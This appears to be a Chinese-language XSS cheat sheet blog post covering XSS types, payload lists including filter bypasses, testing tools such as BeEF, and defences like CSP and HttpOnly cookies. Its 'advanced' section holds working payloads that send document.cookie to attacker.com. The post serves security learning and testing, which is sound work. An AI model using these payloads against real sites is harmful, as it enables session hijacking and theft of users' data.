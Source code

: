 ```yaml
---
title: xss注入备忘录
author: ak
description: "xss注入备忘录"
pubDate: 2025-05-10
tags: ["安全", "xss", "渗透"]
---
```


# XSS注入备忘录

## 什么是XSS？

XSS（跨站脚本攻击）是一种常见的web安全漏洞，攻击者通过在网页中注入恶意脚本，使之在用户的浏览器上运行。这些脚本能够读取cookie、session tokens、或其他敏感信息。

## XSS的类型

1. **反射型XSS**
   - 非持久化，需要用户点击特制的链接
   - payload通常在URL参数中

2. **存储型XSS**
   - 恶意代码存储在目标服务器中
   - 受害者浏览页面时触发
   
3. **DOM型XSS**
   - 发生在客户端JavaScript执行过程中
   - 不涉及服务器端代码

## 常用XSS Payload合集

### 基础测试
```javascript
<script>alert('XSS')</script>
<script>alert(document.cookie)</script>
<script>alert(document.domain)</script>
```

### 图片标签XSS
```javascript
<img src="javascript:alert('XSS')">
<img src=x onerror="alert('XSS')">
<img src=x oneonerrorrror=alert(1)>
```

### 事件处理器
```javascript
<body onload="alert('XSS')">
<input type="text" onmouseover="alert('XSS')">
<div onmouseover="alert('XSS')">
```

### 绕过过滤器
```javascript
<scr<script>ipt>alert('XSS')</scr</script>ipt>
<script>al\u0065rt('XSS')</script>
<img src=x onerror="&#97;lert('XSS')">
```

### SVG XSS
```javascript
<svg/onload=alert('XSS')>
<svg><script>alert('XSS')</script></svg>
```

### 高级Payload
```javascript
<script>fetch('http://attacker.com/'+document.cookie)</script>
<script>new Image().src='http://attacker.com/'+document.cookie</script>
<script>window.location='http://attacker.com?cookie='+document.cookie</script>
```

## 常用XSS Fuzzing工具

### 1. XSStrike
- 功能：自动化XSS检测和利用
- 特点：
  - 支持DOM XSS检测
  - 智能payload生成
  - WAF绕过技术
- 安装：`pip install xsstrike`

### 2. XSS Hunter
- 功能：高级XSS漏洞检测平台
- 特点：
  - 自动收集截图
  - 获取DOM快照
  - 支持盲XSS检测

### 3. Burp Suite - Active Scanner
- 功能：专业的Web应用安全测试
- 特点：
  - 自动化扫描
  - 详细报告生成
  - 自定义payload支持

### 4. BeEF (Browser Exploitation Framework)
- 功能：浏览器漏洞利用框架
- 特点：
  - 实时hook管理
  - 社会工程学模块
  - 详细的命令控制界面

## XSS防御措施

1. **输入验证**
   - 白名单验证
   - 特殊字符过滤

2. **输出编码**
   - HTML编码
   - JavaScript编码
   - URL编码

3. **安全Headers**
   - Content-Security-Policy (CSP)
   - X-XSS-Protection
   - X-Content-Type-Options

4. **Cookie安全**
   - HttpOnly标记
   - Secure标记
   - SameSite属性

## 实用工具和资源

1. **在线XSS测试平台**
   - XSS Game (Google)
   - PortSwigger Web Security Academy
   - OWASP Juice Shop

2. **XSS Payload数据库**
   - PayloadsAllTheThings
   - XSS Filter Evasion Cheat Sheet
   - HTML5 Security Cheatsheet

## 总结

XSS漏洞虽然是一个古老的安全问题，但至今仍然广泛存在于Web应用中。了解各种XSS攻击方式和防御措施对于开发安全的Web应用至关重要。定期更新安全知识，使用现代的安全框架和最佳实践，可以有效降低XSS风险。 